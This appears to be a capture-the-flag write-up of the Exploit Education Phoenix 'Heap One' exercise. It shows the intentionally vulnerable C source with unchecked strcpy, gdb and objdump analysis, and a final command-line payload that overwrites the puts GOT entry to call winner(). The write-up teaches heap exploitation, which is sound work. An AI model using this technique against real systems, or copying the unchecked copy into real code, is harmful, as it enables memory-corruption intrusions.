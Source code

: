 ```yaml
---
title: " Exploit Education | Phoenix | Heap One"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct heapStructure {
  int priority;
  char *name;
};

int main(int argc, char **argv) {
  struct heapStructure *i1, *i2;

  i1 = malloc(sizeof(struct heapStructure));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct heapStructure));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}

void winner() {
  printf(
      "Congratulations, you've completed this level @ %ld seconds past the "
      "Epoch\n",
      time(NULL));
}
```

This code uses **strcpy** without size checking just like the previous level, but there is not function pointer here to overwrite.

Let's look at the memory layout, remember that **malloc** returns the allocation address in **eax** so we can set breakpoints after each call to get **i1** and **i2** addresses (also these two addresses are stored at **ebp-0xc** and **ebp-0x10**).

```
$ gdb -q /opt/phoenix/i486/heap-one
Reading symbols from /opt/phoenix/i486/heap-one...(no debugging symbols found)...done.

gef➤  b *0x08048883
Breakpoint 1 at 0x8048883

gef➤  r AAAA BBBB
Starting program: /opt/phoenix/i486/heap-one AAAA BBBB
Breakpoint 1, 0x08048883 in main ()

gef➤  x/xw $ebp-0xc
0xffffd6fc:	0xf7e69008

gef➤  x/xw $ebp-0x10
0xffffd6f8:	0xf7e69028

gef➤  x/12xw 0xf7e69008
0xf7e69008:	0x00000001	0xf7e69018	0x00000000	0x00000011
0xf7e69018:	0x41414141	0x00000000	0x00000000	0x00000011
0xf7e69028:	0x00000002	0xf7e69038	0x00000000	0x00000011

gef➤  x/12xw 0xf7e69028
0xf7e69028:	0x00000002	0xf7e69038	0x00000000	0x00000011
0xf7e69038:	0x42424242	0x00000000	0x00000000	0x000fffc1
0xf7e69048:	0x00000000	0x00000000	0x00000000	0x00000000
```

We can see that **i1** is at **0xf7e69008**, first value **priority** is **0x1** and second value is **name** address returned from **malloc(8)** which is **0xf7e69018** and we can see that **strcpy** is writing to that address.

So if we overflow **i1** to write to **name** address of **i2** we can overwrite any value in memory with the value of **argv[2]**, but what to overwrite ???

```
gef➤  disassemble main 
Dump of assembler code for function main:
   0x0804887e <+169>:	push   0x804ab70
=> 0x08048883 <+174>:	call   0x80485b0 <puts@plt>
   0x08048888 <+179>:	add    esp,0x10
```

You guessed it (I hope), we will overwrite the **GOT** entry of the **puts** function to point to **winner** function.

```
$ objdump -R /opt/phoenix/i486/heap-one | grep puts
0804c140 R_386_JUMP_SLOT   puts

$ objdump -t /opt/phoenix/i486/heap-one | grep winner
0804889a g     F .text	00000027 winner
```

**puts** is at **0x0804c140** and **winner** is at **0x0804889a**, and the needed offset = 0xf7e6902c - 0xf7e69018 = 20 bytes.

Note that in the assembly, **winner** function uses **printf** not **puts** so we can safely overwrite **puts** function.

# Solution:

```
$ /opt/phoenix/i486/heap-one $(python -c "print 'A'*20 + '\x40\xc1\x04\x08'") $(python -c "print '\x9a\x88\x04\x08'")
Congratulations, you've completed this level @ 1580310733 seconds past the Epoch
```
